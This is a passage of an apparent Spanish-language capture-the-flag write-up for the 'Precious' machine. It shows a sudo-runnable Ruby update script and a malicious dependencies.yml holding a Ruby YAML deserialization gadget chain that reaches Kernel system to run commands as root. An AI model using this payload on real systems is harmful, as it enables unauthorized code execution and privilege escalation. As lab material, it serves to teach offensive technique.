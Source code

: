 ```bash
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
henry@precious:/$ 
```

Si lo ejecutamos pasa esto por que no encuentra el `dependencies.yml` 

```bash
henry@precious:/$ sudo -u root /usr/bin/ruby /opt/update_dependencies.rb 
Traceback (most recent call last):
	2: from /opt/update_dependencies.rb:17:in `<main>'
	1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read': No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
henry@precious:/$
```

Entonces lo que podemos hacer es crearlo pero obviamente vamos a hacer una malicioso si buscamos en internet encontramos eso 

![](/assets/images/htb-writeup-precious/web8.png)

Mas informacion [aqui](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) 

Bueno como podemos inyectar comandos vamos a comprobar primeramente eso ejecutando el comando `whoami` vamos a crear un script `dependencies.yml` en el directorio de `henry`

```bash
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
```